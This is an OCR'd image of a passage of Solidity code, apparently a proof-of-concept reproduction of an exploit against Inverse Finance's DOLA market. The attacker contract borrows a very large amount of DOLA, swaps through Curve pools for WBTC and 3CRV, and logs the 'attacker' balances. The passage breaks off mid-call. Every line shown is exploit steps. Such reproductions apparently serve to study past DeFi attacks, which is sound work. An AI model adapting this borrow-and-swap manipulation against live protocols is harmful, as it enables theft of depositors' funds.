 │     InverseFinanceDola.borrow(10133949192393802606886848);                                                                                                                                                                                           │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "DOLA balance of attacker:",                                                                                                                                                                                                                   │
│       DOLA.balanceOf(address(this))                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     curveRegistry.exchange(                                                                                                                                                                                                                          │
│       address(curveVyper_contract),                                                                                                                                                                                                                  │
│       address(usdt),                                                                                                                                                                                                                                 │
│       address(WBTC),                                                                                                                                                                                                                                 │
│       75403376186072,                                                                                                                                                                                                                                │
│       0,                                                                                                                                                                                                                                             │
│       address(this)                                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap, WBTC balance of attacker:",                                                                                                                                                                                                       │
│       WBTC.balanceOf(address(this)) / 1e8                                                                                                                                                                                                            │
│     );                                                                                                                                                                                                                                               │
│     curveRegistry.exchange(                                                                                                                                                                                                                          │
│       address(dola3pool3crv),                                                                                                                                                                                                                        │
│       address(DOLA),                                                                                                                                                                                                                                 │
│       address(crv3),                                                                                                                                                                                                                                 │